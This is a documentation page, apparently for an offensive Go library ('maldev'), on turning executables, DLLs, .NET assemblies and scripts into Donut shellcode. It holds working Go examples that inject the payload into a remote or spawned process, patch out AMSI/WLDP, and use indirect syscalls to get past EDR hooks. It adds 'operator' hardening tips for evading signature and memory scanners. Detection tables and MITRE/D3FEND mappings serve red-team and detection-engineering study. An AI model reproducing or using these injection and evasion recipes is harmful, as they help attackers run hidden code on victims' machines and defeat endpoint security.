

# PE-to-Shellcode (Donut)

[← pe index](README.md) · [docs/index](../../index.md)

## TL;DR

You have a `.exe` / `.dll` / .NET assembly / script. You want
to inject it into a remote process — but Windows expects executables
to live on disk, not as a byte buffer in memory. Donut solves this
by wrapping your payload in a tiny position-independent loader stub
that boots the payload from a flat byte buffer.

Output is always one byte slice. Pick the right entry point based
on what you have:

| You have… | Use | Required `Config` fields | Notes |
|---|---|---|---|
| `.exe` on disk | [`ConvertFile`](#convertfilepath-string-cfg-config-byte-error) | none (auto-detected) | Easiest path. Type defaults to `ModuleEXE`. |
| `.exe` in memory (decrypted in-process) | [`ConvertBytes`](#convertbytesdata-byte-cfg-config-byte-error) | `Type = ModuleEXE` | No disk artefacts — payload never lands. |
| `.dll` on disk | [`ConvertDLL`](#convertdlldllpath-string-cfg-config-byte-error) | `Method = "ExportName"` | Donut calls this export instead of an entry point. |
| `.dll` in memory | [`ConvertDLLBytes`](#convertdllbytesdllbytes-byte-cfg-config-byte-error) | `Type = ModuleDLL`, `Method` | Same as above, in-memory. |
| .NET EXE | `ConvertFile` | `Type = ModuleNetEXE` | Donut hosts the CLR in-process — no `.NET` install on disk needed. |
| .NET DLL | `ConvertFile` | `Type = ModuleNetDLL`, `Class`, `Method` | Donut calls `Class.Method()` after loading. |
| VBS / JS / XSL | `ConvertFile` | `Type = ModuleVBS`/`ModuleJS`/`ModuleXSL` | Built-in mshta-equivalent runs the script. |

Final output goes into any [`inject/`](../injection/README.md)
primitive — `CreateRemoteThread`, APC, ThreadHijack, etc.

## Primer — vocabulary

Three terms that recur on this page:

> **Position-Independent Code (PIC)** — code that runs correctly
> regardless of where it lands in memory. A normal `.exe` has
> hardcoded addresses ("call function at virtual address 0x1000")
> that only work when loaded at a specific base. PIC uses
> relative offsets ("call function 0x100 bytes ahead") so it
> works at any address. Donut's loader stub IS PIC; the payload
> wrapped inside doesn't need to be (the stub fixes it up at
> load time).
>
> **Reflective loader** — code that performs the work normally
> done by Windows's PE loader (parse headers, allocate memory,
> apply relocations, resolve imports, call entry point) but
> from inside the target process, on a payload that was never
> on disk. Donut's stub is a textbook reflective loader.
>
> **AMSI / WLDP** — Anti-Malware Scan Interface and Windows
> Lockdown Policy. Both are user-mode hooks Microsoft inserts
> into script hosts (PowerShell, JScript, VBScript) and the
> .NET runtime to scan strings + assemblies before execution.
> Donut can patch them out in-process before loading the
> payload (`Bypass` field).

## How It Works

The flow has two halves: build-host conversion (left), runtime
execution after injection (right):

## How It Works



Generated shellcode layout:

```text
[ PIC Donut loader stub ]   ← position-independent x64 / x86 / x84
[ embedded config block ]   ← Arch, Bypass, Method, Class, Params
[ compressed payload ]      ← original PE / .NET / script bytes
```

### Input format matrix

| Format | `Type` constant | `Class` required | `Method` required |
|---|---|---|---|
| Native EXE | `ModuleEXE` | — | — |
| Native DLL | `ModuleDLL` | — | export name |
| .NET EXE | `ModuleNetEXE` | — | — |
| .NET DLL | `ModuleNetDLL` | yes | yes |
| VBScript | `ModuleVBS` | — | — |
| JScript | `ModuleJS` | — | — |
| XSL | `ModuleXSL` | — | — |

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/pe/srdi`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/srdi) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Quick start — your first shellcode (read this one)

You have a Go-built `payload.exe` and you want to inject it into
another process. The shortest end-to-end path is two function
calls: `srdi.ConvertFile` to wrap your EXE in a Donut stub, then
any `inject.*` primitive to run the resulting bytes inside a
target process.

```go
package main

import (
    "fmt"
    "log"

    "github.com/oioio-space/maldev/inject"
    "github.com/oioio-space/maldev/pe/srdi"
)

func main() {
    // Step 1: wrap the EXE. DefaultConfig assumes ModuleEXE +
    //         x64 + AMSI bypass-on-fail. ConvertFile auto-detects
    //         from the file extension when cfg.Type is zero.
    sc, err := srdi.ConvertFile("payload.exe", srdi.DefaultConfig())
    if err != nil { log.Fatal(err) }

    fmt.Printf("payload.exe → %d bytes of shellcode (Donut stub + payload)\n", len(sc))
    // → payload.exe (148 KB) → 154112 bytes of shellcode

    // Step 2: pick an injection method + target. Spawn notepad to
    //         have a clean target PID.
    icfg := inject.DefaultWindowsConfig(inject.MethodCreateRemoteThread, 0)
    icfg.SpawnSacrificial = "notepad.exe"  // injector spawns + uses its PID

    inj, err := inject.NewWindowsInjector(icfg)
    if err != nil { log.Fatal(err) }
    if err := inj.Inject(sc); err != nil { log.Fatal(err) }

    fmt.Println("payload running inside the spawned notepad.exe")
}
```

What just happened:

1. `srdi.ConvertFile` parsed `payload.exe`, compressed it, and
   prepended Donut's PIC loader stub. The result is a flat byte
   buffer that runs the payload regardless of where it's mapped
   in memory.
2. `inject.NewWindowsInjector` allocated executable memory in
   the target, wrote the shellcode there, and kicked execution
   via `CreateRemoteThread`.
3. The Donut stub bootstrapped your EXE in the target process —
   parsed its PE headers, applied relocations, resolved imports,
   called its entry point.

What still trips defenders: Donut's loader stub has a known byte
pattern (Defender, MDE, CrowdStrike all carry signatures). See
[OPSEC](#opsec--detection) for hardening (`crypto` encryption,
sleep masking, sleep+RX flip).

### Simple — convert a native EXE (one-liner)

For when you don't need the explanation:

```go
import "github.com/oioio-space/maldev/pe/srdi"

shellcode, _ := srdi.ConvertFile("payload.exe", srdi.DefaultConfig())
```

### DLL with named export

DLLs differ from EXEs in one critical way: they don't have a
single entry point, they expose a *table of exports* the loader
can call. Donut needs to know which export to invoke after
loading.

```go
import "github.com/oioio-space/maldev/pe/srdi"

cfg := srdi.DefaultConfig()
cfg.Type   = srdi.ModuleDLL
cfg.Method = "ReflectiveLoader"  // export name, must exist in the DLL

shellcode, err := srdi.ConvertDLL("payload.dll", cfg)
if err != nil { /* dll missing export, malformed, etc. */ }
```

If the export takes parameters, set `cfg.Parameters` to a
space-separated string ("arg1 arg2 'arg with spaces'"). Donut
parses this argv-style and pushes the values onto the stack
before calling.

### .NET DLL + class.method invocation

.NET DLLs are even more structured: every callable lives in a
specific class. Donut hosts the CLR in-process and invokes
exactly one `Class.Method()` after loading the assembly.

```go
import "github.com/oioio-space/maldev/pe/srdi"

cfg := &srdi.Config{
    Type:   srdi.ModuleNetDLL,
    Class:  "Loader.Stub",  // namespace.Type, case-sensitive
    Method: "Run",          // method name on Class, case-sensitive
    Bypass: 3,              // continue if AMSI patch fails
}
sc, _ := srdi.ConvertFile("loader.dll", cfg)
```

Bypass values:

- **1 — Skip:** don't even try to patch AMSI. Use when you know
  AMSI isn't watching (older Windows, Defender disabled).
- **2 — Abort on fail:** patch and refuse to load if patching
  fails. Use when stealth matters more than execution (an
  unpatched AMSI WILL log your assembly).
- **3 — Continue on fail:** patch and load anyway if patching
  fails. Default in `DefaultConfig`. Pragmatic for ops where
  failure to patch usually means "AMSI isn't there to log us
  anyway".

### Advanced — dual-mode shellcode + indirect syscalls + remote target

Combines several knobs: dual-arch output (runs on both x86 and
x64 hosts so you don't need to know the target architecture
ahead of time), indirect-syscall injection (each NTAPI call
resolves its SSN at runtime instead of using the linked stub),
specific target PID instead of spawning.

```go
import (
    "github.com/oioio-space/maldev/inject"
    "github.com/oioio-space/maldev/pe/srdi"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

cfg := &srdi.Config{
    Arch:   srdi.ArchX84,         // dual x86 + x64
    Type:   srdi.ModuleNetDLL,
    Class:  "Loader.Stub",
    Method: "Run",
    Bypass: 3,
}
sc, _ := srdi.ConvertFile("loader.dll", cfg)

icfg := inject.DefaultWindowsConfig(inject.MethodCreateRemoteThread, targetPID)
icfg.SyscallMethod = wsyscall.MethodIndirect  // bypass userland hooks

inj, _ := inject.NewWindowsInjector(icfg)
_ = inj.Inject(sc)
```

Trade-off of `ArchX84`: doubles the loader stub size (both x86
and x64 versions present), so YARA-style scanners get two
signature surfaces to match instead of one. Pick `ArchX64` (or
`ArchX32`) when target architecture is known.

See [`ExampleConvertFile`](../../../pe/srdi/srdi_example_test.go)
+ [`ExampleConvertBytes`](../../../pe/srdi/srdi_example_test.go)
for the godoc-attached versions.

### When to choose ConvertFile vs ConvertBytes vs ConvertDLL

| You're staging from… | Function | Why |
|---|---|---|
| A `.exe` you wrote to disk | `ConvertFile` | Auto-detects `Type` from extension. Simplest. |
| A payload your build pipeline decrypted in memory | `ConvertBytes` | Avoids ever writing the cleartext payload to disk — important when EDR file-write telemetry is the threat. |
| A `.dll` on disk needing a specific export | `ConvertDLL` | Same as `ConvertFile` but pins `Type=ModuleDLL` so you can't forget. |
| A `.dll` decrypted in memory | `ConvertDLLBytes` | Same combination as `ConvertBytes` + DLL. |
| A `.NET` / script | `ConvertFile` only | Auto-detection works for these too; in-memory equivalents not exposed (Donut needs the on-disk form for these formats). |

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| Donut loader stub byte signature | YARA / memory scanners — Defender, MDE, CrowdStrike all carry Donut signatures by default |
| RWX page allocation in target | Behavioural EDR — Donut's mini-loader writes then executes; RWX is the canonical "shellcode" tell |
| AMSI / WLDP patch ranges in lsass / current process | Microsoft-Windows-Threat-Intelligence ETW provider |
| .NET assembly load events without a corresponding `.exe` on disk | ETW Microsoft-Windows-DotNETRuntime; Defender flags managed runtime hosting from non-managed processes |
| Sustained `LoadLibraryW` / `GetProcAddress` from a freshly-allocated region | EDR API correlation |

**D3FEND counters:**

- [D3-PA](https://d3fend.mitre.org/technique/d3f:ProcessAnalysis/)
  — RWX + execute-from-allocation telemetry.
- [D3-FCA](https://d3fend.mitre.org/technique/d3f:FileContentAnalysis/)
  — YARA on the loader stub byte pattern.

**Hardening for the operator:**

- Encrypt the shellcode with [`crypto`](../crypto/README.md)
  before the injector writes it to RWX — the stub stays
  detectable but only after the implant has staged.
- Use `inject`'s sleep-mask + indirect syscall combination so
  the stub bytes are absent from memory between callbacks.
- Avoid `ArchX84` unless dual-mode is genuinely required — the
  larger blob carries both x86 + x64 signatures.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1055.001](https://attack.mitre.org/techniques/T1055/001/) | Process Injection: Dynamic-link Library Injection | partial — produces shellcode for downstream injection (consumer side) | D3-PA |
| [T1620](https://attack.mitre.org/techniques/T1620/) | Reflective Code Loading | full — Donut loader stub is a textbook reflective loader | D3-FCA, D3-PA |

## Limitations

- **Detectable stub.** Donut's loader carries a known byte
  pattern; signature-based YARA + memory scans flag it.
- **RWX allocation.** The mini PE loader writes and then
  executes — RWX is the canonical shellcode tell.
- **No built-in obfuscation.** Stub bytes are not encrypted by
  default; pair with `crypto` + sleep masking.
- **Windows payloads only.** Shellcode generation runs
  cross-platform; the produced shellcode targets Windows.
- **+5–10% size overhead.** Donut compresses the input but adds
  the loader stub; expect modest growth.

## Credits

- [Binject/go-donut](https://github.com/Binject/go-donut) — pure-Go Donut port (vendored).
- [TheWover/donut](https://github.com/TheWover/donut) — original C reference.
- [monoxgas/sRDI](https://github.com/monoxgas/sRDI) — sRDI technique that inspired Donut.

## See also

- [`inject`](../injection/README.md) — execution surface for the
  produced shellcode.
- [`crypto`](../crypto/README.md) — payload encryption pre-conversion.
- [`evasion/sleepmask`](../evasion/sleep-mask.md) — hide the
  stub between callbacks.
- [Operator path](../../by-role/operator.md).
- [Detection eng path](../../by-role/detection-eng.md).
